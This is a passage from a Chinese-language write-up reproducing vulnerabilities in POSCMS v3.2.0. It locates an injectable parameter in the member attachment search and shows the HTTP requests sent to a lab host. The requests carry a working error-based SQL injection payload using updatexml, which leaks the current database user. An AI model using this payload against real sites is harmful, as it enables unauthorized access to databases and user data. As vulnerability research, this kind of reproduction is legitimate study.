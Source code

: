 该函数的调用点位于（`\diy\module\member\controllers\Account.php`）：

![](POSCMSv3-2-0漏洞套餐复现\19.png)

对应的功能实际是前台用户中心—>基本管理—>附件管理的搜索功能，随便选择某个类别搜索后会看到这条请求：

```http
GET /index.php?s=member&c=account&m=attachment&module=photo&ext= HTTP/1.1
Host: 10.10.10.129
```

向`module`参数注入Payload果然出现了报错：

![](POSCMSv3-2-0漏洞套餐复现\20.png)

但不知道为什么博客里的Payload这里复现失败了，不过已经知道是报错注入，我用了经典的Payload——`" or updatexml(1,concat(1,0x7e,user()),1);#`拼接入参数中，得到了数据库当前用户：

```http
GET /index.php?s=member&c=account&m=attachment&module=photo%22%20or%20updatexml(1,concat(1,0x7e,user()),1);%23&ext= HTTP/1.1
Host: 10.10.10.129
```
